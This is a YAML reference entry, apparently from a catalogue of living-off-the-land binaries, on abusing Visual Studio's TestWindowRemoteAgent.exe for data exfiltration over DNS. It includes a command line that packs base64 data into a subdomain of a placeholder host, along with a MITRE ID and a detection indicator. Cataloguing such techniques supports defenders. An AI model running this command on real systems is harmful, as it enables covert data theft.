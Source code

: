 ```yaml
---
Name: TestWindowRemoteAgent.exe
Description: TestWindowRemoteAgent.exe is the command-line tool to establish RPC
Author: Onat Uzunyayla
Created: 2023-08-21
Commands:
  - Command: TestWindowRemoteAgent.exe start -h {your-base64-data}.example.com -p 8000
    Description: Sends DNS query for open connection to any host, enabling exfiltration over DNS
    Usecase: Attackers may utilize this to exfiltrate data over DNS
    Category: Upload
    Privileges: User
    MitreID: T1048
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TestWindow\RemoteAgent\TestWindowRemoteAgent.exe
Detection:
  - IOC: TestWindowRemoteAgent.exe spawning unexpectedly
Acknowledgement:
  - Person: Onat Uzunyayla
---
```


